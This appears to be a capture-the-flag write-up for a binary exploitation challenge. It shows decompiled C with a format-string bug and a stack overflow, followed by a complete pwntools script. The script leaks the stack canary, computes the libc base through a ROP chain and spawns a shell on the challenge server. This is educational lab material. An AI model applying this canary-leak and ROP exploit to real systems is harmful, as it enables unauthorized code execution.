


## Classics


### Source Code
```c
void menu(void)

{
  puts("Hello pwner, i\'ll give you two choices . do your magic!.");
  puts("--> [1] shake your proteins.");
  puts("--> [2] drink it.");
  puts("--> [3] go to the gym.");
  printf("> ");
  return;
}
```
```c
void shake(void)

{
  long in_FS_OFFSET;
  undefined local_dc [4];
  char local_d8 [200];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  printf("How many spoons do you want to pour: ");
  __isoc99_scanf(&DAT_0040202e,local_dc);
  printf("Do You want to say something while we are preparing it ?: ");
  read(0,local_d8,199);
  printf(local_d8);
  puts("now go drink it.");
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
```c
void drink(void)

{
  long in_FS_OFFSET;
  undefined local_48 [56];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  puts("Now drink your proteins and give me your feedback\n");
  __isoc99_scanf(&DAT_004020bb,local_48);
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
```c
undefined8 main(void)

{
  uint uVar1;
  char local_d [5];
  
  setup();
  while( true ) {
    menu();
    read(0,local_d,4);
    uVar1 = atoi(local_d);
    if (uVar1 == 3) break;
    if (uVar1 < 4) {
      if (uVar1 == 1) {
        shake();
      }
      else if (uVar1 == 2) {
        drink();
      }
    }
  }
  puts("cy@");
  return 0;
}
```

### Overview
Before diving into the exploitation process lets check the properties of executable file.<br>


We can see that ```NX``` is enabled and a ```Canary``` found (if you don't know what canary is you can check this https://ctf101.org/binary-exploitation/stack-canaries/). So in order to solve this we need to :
	<ul>
		<li><strong>Leak the Canary</strong></li>
		<li><strong>Calculate libc.address</strong></li>
		<li><strong>Pop up a Shell</strong></li>
	</ul>

### Solver
```py
#!/usr/bin/env python3
from pwn import *

#context.log_level = 'DEBUG'

libc = ELF('libc6_2.27-3ubuntu1.5_amd64.so')
elf = context.binary = ELF('./main')
p = remote('20.216.40.184', 10007)

junk = b'\x90' * 56

p.sendline(b'1')
p.sendline(b'1')
p.recvuntil(b'Do You want to say something while we are preparing it ?: ')
p.sendline(b'%33$p')
resp = p.recvline().strip()
canary = int(resp,16)
log.success(f'canary = {hex(canary)}')

############################################################

rop = ROP(elf)
rop.call(elf.plt.puts, [elf.got.puts])
rop.call(elf.sym.main)
#log.info(rop.dump())
payload = junk + p64(canary) + b'\x90'*8 + rop.chain()
p.sendline(b'2')
p.recvuntil(b'Now drink your proteins and give me your feedback\n\n')
p.sendline(payload)
resp = p.recvline().strip()
leak = u64(resp.ljust(8, b'\x00'))
log.info(f'puts leak = {hex(leak)}')
libc.address = leak - libc.sym.puts
log.success(f"libc Address : {hex(libc.address)}")

##############################################################

POPRDI = 0x40143b
POPRAX = libc.address + 0x00000000001cf8a8
POPRSI = libc.address + 0x0000000000023a6a
POPRDX = libc.address + 0x0000000000001b96
SYSCALL = libc.address + 0x0000000000002743

pay = junk
pay += p64(canary)
pay += p64(0xdeadbeef) # 	overwrite rbp
pay += p64(POPRAX)
pay += p64(0x3b)
pay += p64(POPRDI)
pay += p64(next(libc.search(b'/bin/sh')))
pay += p64(POPRSI)
pay += p64(0)
pay += p64(POPRDX)
pay += p64(0)
pay += p64(SYSCALL)

p.sendline(b'2')
p.recvuntil(b'Now drink your proteins and give me your feedback\n\n')
p.sendline(pay)

p.interactive()
p.close()
```
